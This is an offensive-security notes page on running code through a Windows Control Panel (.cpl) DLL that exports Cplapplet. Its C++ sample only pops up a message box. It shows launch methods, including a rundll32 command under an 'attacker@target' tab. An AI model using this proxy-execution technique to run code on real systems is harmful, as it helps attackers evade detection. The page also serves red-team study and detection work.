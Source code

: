 # Executing Code as a Control Panel Item through an Exported Cplapplet Function

This is a quick note that shows how to execute code in a .cpl file, which is a regular DLL file representing a Control Panel item.

The .cpl file needs to export a function `CplApplet` in order to be recognized by Windows as a Control Panel item.

Once the DLL is compiled and renamed to .CPL, it can simply be double clicked and executed like a regular Windows .exe file.

## Code

{% tabs %}
{% tab title="item.cpl" %}
```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "stdafx.h"
#include <Windows.h>

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
	HWND hwndCpl,
	UINT msg,
	LPARAM lParam1,
	LPARAM lParam2
)
{
	MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
	return 1;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
	{
		Cplapplet(NULL, NULL, NULL, NULL);
	}
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endtab %}
{% endtabs %}

Once the DLL is compiled, we can see our exported function `Cplapplet`:

![](../../.gitbook/assets/image%20%2849%29.png)

## Demo

Below shows that double-clicking the .cpl item is enough to launch it:

![](../../.gitbook/assets/cplexecution.gif)

![](../../.gitbook/assets/image%20%28219%29.png)

CPL file can also be launched with `control.exe <pathtothe.cpl>` like so:

![](../../.gitbook/assets/image%20%28117%29.png)

or with rundll32:

{% tabs %}
{% tab title="attacker@target" %}
```text
rundll32 shell32, Control_RunDLL \\VBOXSVR\Experiments\cpldoubleclick
\cpldoubleclick\Debug\cpldoubleclick.cpl
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/image%20%28157%29.png)

## References

{% embed url="https://www.fireeye.com/blog/threat-research/2019/10/staying-hidden-on-the-endpoint-evading-detection-with-shellcode.html" %}

{% embed url="https://github.com/fireeye/DueDLLigence/blob/master/DueDLLigence/DueDLLigence.cs" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/shell/using-cplapplet" %}

